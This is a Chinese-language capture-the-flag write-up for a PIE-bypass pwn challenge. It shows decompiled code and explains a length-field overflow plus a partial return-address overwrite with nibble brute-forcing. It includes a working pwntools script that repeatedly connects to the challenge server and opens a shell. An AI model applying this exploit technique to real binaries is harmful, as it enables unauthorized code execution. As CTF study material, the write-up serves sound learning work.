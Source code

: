 # 挑战简介
Bypass PIE

- 本地环境跟远程环境略有差别，请注意识别查看并修改exp

# 思路
这题比较新颖  

两个关键函数，do_pwn之中  
1. set_user
```
int __fastcall set_user(__int64 a1)
{
  char s[140]; // [rsp+10h] [rbp-90h]
  int i; // [rsp+9Ch] [rbp-4h]

  memset(s, 0, 0x80uLL);
  puts("Enter your name");
  printf("> ", 0LL);
  fgets(s, 128, _bss_start);
  for ( i = 0; i <= 40 && s[i]; ++i )
    *(_BYTE *)(a1 + i + 140) = s[i];
  return printf("Hi, %s", a1 + 140);
}
```

2. set_pwn

```
char *__fastcall set_pwn(__int64 a1)
{
  char s; // [rsp+10h] [rbp-400h]

  memset(&s, 0, 0x400uLL);
  puts("PWN our leader");
  printf("> ", 0LL);
  fgets(&s, 1024, _bss_start);
  return strncpy((char *)a1, &s, *(signed int *)(a1 + 180));
}
```

可以发现，可以读取128字符的username，从set_pwn中对strncpy的调⽤可以看出⻓度保存在a1+180，  
username⾸地址在a1+140，可以通过溢出修改strncpy⻓度造成溢出。  

这个程序开启了PIE保护，我们不能确定后⻔函数GAME_OVER()的具体地址，因此没办法直接通过溢  
出来跳转到后⻔函数GAME_OVER()。我们可以尝试爆破。  
由于内存的⻚载⼊机制，PIE的随机化只能影响到单个内存⻚。通常来说，⼀个内存⻚⼤⼩为0x1000，  
这就意味着不管地址怎么变，某条指令的后12位，3个⼗六进制数的地址是始终不变的。因此通过覆盖  
EIP的后8或16位(按字节写⼊，每字节8位)就可以快速爆破或者直接劫持EIP。  

我们可以看到其地址后三位为0x900  
但是由于我们的payload必须按字节写⼊，每个字节是两个⼗六进制数，所以我们必须输⼊两个字节。  
除去已知的0x900还需要爆破⼀个⼗六进制数。这个数只可能在0~0xf之间改变，因此爆破并空间不⼤。  
我们知道爆破失败的话程序就会崩溃，此时io的连接会关闭，因此调⽤io.recv()会触发⼀个EOFError。由于这个特性，我们可以使⽤python的try...except...来捕获这个错误并进⾏处理。  
值得注意的是，由于没有刷新缓冲区，导致远程部署环境时回显信息会有差异，即没有及时显⽰，先让你输⼊，在两次输⼊过后才进⾏回显。  
但是我们可以先对本地进⾏尝试，在确定⽆误后再对远程进⾏修改  

```
from pwn import *
from LibcSearcher import *
#context(arch = "amd64",os = 'linux',log_level = 'debug')
context(arch = "i386",os = 'linux',log_level = 'debug')
#io = process("./pwn")
elf = ELF('D:\edge 下载\pwn')

i = 0
while True:
    i += 1
    print(i)
    io = remote('pwn.challenge.ctf.show', 28216)

    payload = b'a' * 40
    payload += b'\xca'
    io.sendline(payload)

    payload = b'a' * 200
    payload += b'\x01\x09'
    io.sendline(payload)

    try:
        io.recv(timeout = 1)
    except EOFError:
        io.close()
        continue
    else:
        sleep(0.1)
        io.sendline('/bin/sh\x00')
        sleep(0.1)
        io.interactive()
        break
```


